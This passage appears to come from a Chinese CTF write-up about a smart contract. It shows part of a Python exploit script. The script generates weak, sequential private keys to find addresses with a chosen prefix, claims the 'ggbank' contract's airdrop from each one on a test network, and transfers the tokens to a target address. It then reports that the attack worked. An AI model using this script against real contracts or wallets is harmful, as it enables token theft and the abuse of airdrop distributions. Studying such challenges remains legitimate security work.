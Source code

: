 ```
    result = w3.eth.sendRawTransaction(signed.rawTransaction)

    nonce +=1

    while 1:
        if w3.eth.getBalance(Web3.toChecksumAddress(address)) >0:
            break
        time.sleep(1)

    # 空投
    nonce2 = w3.eth.getTransactionCount(Web3.toChecksumAddress(address))

    transaction2 = ggbank_ins.functions.getAirdrop().buildTransaction({'chainId': 3, 'gas': 200000, 'nonce': nonce2, 'gasPrice': w3.toWei('1', 'gwei')})
    print(transaction2)
    signed2 = w3.eth.account.signTransaction(transaction2, private_key)

    result2 = w3.eth.sendRawTransaction(signed2.rawTransaction)

    # 转账
    nonce2+=1

    transaction3 = ggbank_ins.functions.transfer(mytarget, int(1000)).buildTransaction({'chainId': 3, 'gas': 200000, 'nonce': nonce2, 'gasPrice': w3.toWei('1', 'gwei')})
    print(transaction3)

    signed3 = w3.eth.account.signTransaction(transaction3, private_key)

    result3 = w3.eth.sendRawTransaction(signed3.rawTransaction)



if __name__ == '__main__':

    j = 0
    for i in range(1000000,100000000):
        private_key = "%064d" % i
        # address = create_address(private_key)
        # print(address)
        # if "7d7ec" in address:
        #     print(address)

        address = "0x" + encode_hex(privtoaddr(private_key))

        if "7d7ec" in address:
            private_key = unhexlify(private_key)
            print(j)
            try:
                transfer(address, private_key)
            except:
                traceback.print_exc()
                print("error:"+str(j))
            j+=1

```

最终效果显著

![image.png-8.3kB][1]


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/89eepzp81mzw31l8fhf737k8/image.png
